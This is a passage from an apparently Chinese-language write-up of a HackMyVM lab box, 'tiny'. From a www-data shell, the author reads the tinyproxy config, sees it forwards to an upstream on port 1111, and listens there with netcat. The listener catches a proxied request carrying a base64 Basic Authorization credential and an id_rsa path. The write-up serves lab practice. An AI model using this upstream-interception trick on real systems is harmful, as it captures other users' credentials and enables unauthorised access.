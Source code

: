 ```bash
(remote) www-data@tiny.hmv:/home$ find / -name tinyproxy -type f 2>/dev/null
/usr/bin/tinyproxy
/etc/init.d/tinyproxy
/etc/default/tinyproxy
/etc/logrotate.d/tinyproxy
(remote) www-data@tiny.hmv:/home$ find / -name tinyproxy.conf  2>/dev/null
/usr/share/doc/tinyproxy/examples/tinyproxy.conf
/usr/lib/tmpfiles.d/tinyproxy.conf
/etc/tinyproxy/tinyproxy.conf
```

查找一下我们想要的东西：

```bash
cat /usr/lib/tmpfiles.d/tinyproxy.conf
cat /etc/tinyproxy/tinyproxy.conf
cat /etc/tinyproxy/tinyproxy.conf | grep "Port"
cat /etc/tinyproxy/tinyproxy.conf | grep -v "#"
cat /etc/tinyproxy/tinyproxy.conf | grep -v "#" | grep 
```

> `grep .` 的意思是搜索包含至少一个字符的行。由于`.` 匹配任何字符，所以任何非空行都会被这个命令匹配。

```bash
User tinyproxy
Group tinyproxy
Port 8888
Timeout 600
DefaultErrorFile "/usr/share/tinyproxy/default.html"
StatFile "/usr/share/tinyproxy/stats.html"
LogFile "/var/log/tinyproxy/tinyproxy.log"
LogLevel Info
PidFile "/run/tinyproxy/tinyproxy.pid"
Upstream http localhost:1111
MaxClients 100
Allow 127.0.0.1
Allow ::1
Allow 192.168.0.30
ViaProxyName "tinyproxy"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729400.png" alt="image-20240409165731491" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729401.png" alt="image-20240409165752892" style="zoom:50%;" />

看来`8888`端口被绑定到了`1111`端口，尝试监听一下：

```bash
(remote) www-data@tiny.hmv:/home$ nc -lp 1111
whoami
^C
(remote) www-data@tiny.hmv:/home$ nc -lvvp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 34160
GET http://127.0.0.1:8000/id_rsa HTTP/1.1
Host: 127.0.0.1:8000
Connection: close
Via: 1.1 tinyproxy (tinyproxy/1.11.1)
Authorization: Basic cm9vdDpRMlg0OXQ0V2pz
User-Agent: curl/7.88.1
Accept: */*
```
